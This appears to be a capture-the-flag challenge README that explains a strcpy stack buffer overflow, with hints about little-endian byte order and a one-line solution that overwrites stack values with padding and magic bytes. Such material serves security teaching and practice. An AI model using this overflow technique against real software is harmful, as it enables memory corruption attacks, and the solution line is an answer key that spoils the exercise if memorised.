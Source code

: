 Challenge 3
===========
Simple buffer overflow to overwite values on the stack.

Hints
-----
1. Strcpy is involved. It's awful.
2. x86 Processors are what we call "little endian"
3. There may be more than one thing you need to overwrite

Solution
--------
./chal3 $(python -c 'print "A"*512 + "\xad\xda\xad\xda\x0d\xd0\x0d\xd0"')
